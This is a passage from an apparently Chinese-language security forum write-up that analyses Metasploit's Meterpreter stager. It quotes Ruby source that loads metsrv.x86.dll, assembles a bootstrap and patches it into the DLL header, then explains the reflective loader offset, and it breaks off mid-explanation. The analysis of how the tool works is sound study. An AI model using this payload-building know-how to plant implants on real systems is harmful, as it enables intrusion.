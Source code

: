 ```php
    \# return the binary version of it  
    config.to\_b  
  end  
​  
  def stage\_meterpreter(opts\={})  
    ds \= opts\[:datastore\] || datastore  
    debug\_build \= ds\['MeterpreterDebugBuild'\]  
    \# Exceptions will be thrown by the mixin if there are issues.  
    dll, offset \= load\_rdi\_dll(MetasploitPayloads.meterpreter\_path('metsrv', 'x86.dll', debug: debug\_build))  
​  
    asm\_opts \= {  
      rdi\_offset: offset,  
      length:     dll.length,  
      stageless:  opts\[:stageless\] \== true  
    }  
​  
    asm \= asm\_invoke\_metsrv(asm\_opts)  
​  
    \# generate the bootstrap asm  
    bootstrap \= Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode\_string  
​  
    \# sanity check bootstrap length to ensure we dont overwrite the DOS headers e\_lfanew entry  
    if bootstrap.length \> 62  
      raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!"  
    end  
​  
    \# patch the bootstrap code into the dll's DOS header...  
    dll\[ 0, bootstrap.length \] \= bootstrap  
​  
    dll  
  end  
​  
end  
​  
end  
​
```

分析上面代码，首先整体的satge是由两部分构成，如下图，一部分是stage\_meterpreter()，一部分是generate\_config()；

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-611253a64758e4ae9ca0409daf4f1a32139b2b85.png)

如下图，在stage\_meterpreter()中主要就两部分，第一部分调用load\_rdi\_dll获取到一个dll和一个偏移量，传入参数：（MetasploitPayloads.meterpreter\_path('metsrv', 'x86.dll', debug: debug\_build)）

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-c81607e56391da89e46e266cdc97e2da3d9e9303.png)

跟进load\_rdi\_dll方法,在`lib/msf/core/reflective_dll_loader.rb`中：

这段代码其实就是读取metsrv.x86.dll文件，然后通过parse\_pe方法获取到反射函数（ReflectiveLoader）的偏移地址，最后返回：
